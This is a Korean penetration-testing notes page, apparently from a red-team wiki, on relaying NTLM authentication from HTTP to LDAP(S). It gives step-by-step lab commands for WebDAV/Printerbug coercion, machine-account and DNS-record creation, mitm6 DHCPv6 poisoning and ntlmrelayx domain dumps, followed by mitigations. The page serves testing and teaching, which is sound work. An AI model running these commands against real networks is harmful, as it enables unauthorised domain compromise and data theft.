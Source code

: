 # HTTP to LDAP

HTTP to LDAP(S) 는 LDAP Signing 설정에 있어서 좀 더 자유로운 편이기 때문에 자주 사용되는 릴레이 공격이다. HTTP 트래픽을 받아올 때는 MITM6를 통한 DHCPv6 포이즈닝 혹은 Webdav 서비스를 이용한 강제 인증 (Petitpotam, Print Spooler) 등을 이용한다.

* HTTP -> LDAP: LDAP Signing Disabled/Enabled 공격가능. Required 일 시 공격 불가능.
* HTTP -> LDAPS: LDAP Signing Disabled/Enabled/Required 모두 공격 가능. EPA (Extended Protection for Authentication) 사용시 공격 불가능.

HTTP to LDAP(S) 에는 크게 두 가지 공격 방식이 있다.

1. Webdav + 강제인증: 타겟 서버가 Webdav 서비스를 실행중일 때 강제 인증을 통해 Webdav 서비스로부터 인증 트래픽을 받아낸 뒤, 이를 릴레이한다.
2. MITM6: 타겟 서버가 DHCPv6 에 취약하다면 ipv6 DNS 서버를 스푸핑 한 뒤, ipv6 관련된 트래픽을 공격자 서버로 보낸다. 그 뒤, 이 트래픽을 릴레이한다.

\#1 번의 경우 도메인 유저 맥락이 필요하기 때문에 도메인 장악 보다는 Webdav 호스트의 LDAP 특성을 조작해 장악하는 방식으로, 횡적 이동에 자주 사용된다.

\#2 번의 경우 아무런 유저 계정 정보없이 머신 계정 생성 및 LDAP 정보 덤프가 가능하기 때문에 도메인 진입에 자주 사용된다.

### 1. Webdav 강제 인증

Webdav 강제 인증에서는 강제 인증을 통해서 Webdav 서비스가 공격자에게 HTTP 트래픽을 보내도록 해야한다. 이를 위해서는 피해자공서버가격자의 IP 주소가 아닌 DNS 이름으로 트래픽을 보내도록 해야한다.

때문에 공격자 서버의 DNS 엔트리를 생성해야한다. 이를 위해선 SPN 이 설정되어 있는 머신 계정이 필요하다.

```
# 1. Webdav 확인 
webclientservicescanner choi.local/low:'Password123!'@192.168.40.0/24

# 2. 공격자 머신 계정 생성 
impacket-addcomputer choi.local/low:'Password123!' -dc-ip 192.168.40.150

[*] Successfully added machine account DESKTOP-405ONBSD$ with password MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk.

# 3. 공격자 머신 계정의 DNS 엔트리 생성 - 공격자 서버의 IP 주소 지정 (192.168.40.132)
python3 dnstool.py -u choi.local\\'DESKTOP-405ONBSD$' -p 'MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk' -a add -r relayx -d 192.168.40.132 ldaps://192.168.40.150

# 4. Webdav + Printerbug 강제 인증 
python3 printerbug.py choi.local/low:'Password123!'@192.168.40.151 kali@80/choiredteam 

# 5. ntlmrelayx 를 이용해 LDAP 정보 덤프
./ntlmrelayx.py -t ldaps://192.168.40.150 --no-da --no-acl -smb2support --remove-mic --no-validate-priv

[*] HTTPD(80): Authenticating against ldaps://192.168.40.150 as / SUCCEED
[*] Assuming relayed user has privileges to escalate a user via ACL attack
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!

# 6. 공격 완료 후 머신 계정 및 DNS 엔트리 삭제 - 도메인 관리자 권한 필요 
impacket-addcomputer -delete choi.local/Administrator:'Password123!' -computer-name 'DESKTOP-405ONBSD$'
python3 dnstool.py -u choi.local\\'DESKTOP-405ONBSD$' -p 'MV6AVqCWU7vnChAVPH5RICbBtBzkJdbk' -a remove -r relayx -d 192.168.40.132 ldaps://192.168.40.150
```

### 2. MITM6

```
# 1. MITM6 세팅 
python3 mitm6.py -d <도메인> --ignore-nofqdn

# 1-1. 특정 호스트만 화이트리스트 처리 후 mitm6 공격 
python3 mitm6.py -d <도메인> --ignore-nofqdn -hw <호스트 FQDN>
python3 mitm6.py -d choi.local --ignore-nofqdn -hw wkstn01.choi.local

# 2. ntlmrelayx 세팅 
python3 ntlmrelayx.py -t ldap://<ip> -wh <wpad-이름-아무거나> -6 --no-da --no-acl
python3 ntlmrelayx.py -t ldap://192.168.40.150 -wh choipad -6 --no-da --no-acl

# ntlmrelayx 공격 결과 
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from ::ffff:192.168.40.151 controlled, attacking target ldap://192.168.40.150
[*] HTTPD(80): Authenticating against ldap://192.168.40.150 as CHOI/ADMINISTRATOR SUCCEED
[*] Domain info dumped into lootdir!

```

ntlmrelayx 의 기본적인 LDAP 공격은 도메인 어드민 유저를 생성한다거나 ACL 공격을 함부로 진행하는 등의 고객사 네트워크에 사용하기엔 좀 위험한 공격들이 있다. 따라서 `--no-da` 와 `--no-acl` 등의 플래그를 이용해서 기본 공격들을 진행하지 않는다.

위 실습에서는 오로지 도메인 정보만 덤프하는 아주 기본적인 공격을 진행했다. 사실상 BloodHound 를 실행한 것과 같은 공격이다.

### 대응 방안

* HTTP -> LDAP: Webdav 가 필요 없는 서버들은 Webdav를 비활성화 시킨다.
* HTTP -> LDAP: LDAP Signing을 Required 로 설정한다. `(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정
* HTTP -> LDAPS: Extended Protection for Authentication (EPA) 를 설정한다.
  * IIS > 왼쪽의 Sites 에서 EPA 를 설정할 사이트 ("a") 찾기 > Authentication > Windows Authentication Enable > Windows Authentication Advanced Settings > Extended Protection : REQUIRED 로 설정

<figure><img src="../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>

### MISC

* DHCPv6 포이즈닝 관련 테스트를 할때는 nic을 껐다 켰다 하는게 제일 빠른 것 같다.
* wpad 관련된 공격에서는 컴퓨터를 재부팅하거나 재로그인 하는 것이 도움될 때가 있다.
* Webdav 강제 인증 공격에서는 실제 공격자의 DNS 엔트리가 필요하다. 만약 공격자 전용 리눅스 VM 이라면 add-computer + dnstool 로 머신 계정 생성 + DNS 엔트리를 머신계정과 공격자 VM으로 묶어준다 (relayx.choi.local == 192.168.40.132).
  * 만약 이미 윈도우 호스트 중 한 대를 장악한 공격자라면 머신 계정을 생성할 필요도, DNS 엔트리를 바꿀 필요도 없다. 그저 장악한 호스트로 Webdav 강제 인증을 보내주기만 하면 된다.

### 레퍼런스

{% embed url="https://github.com/Hackndo/WebclientServiceScanner" %}

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/" %}
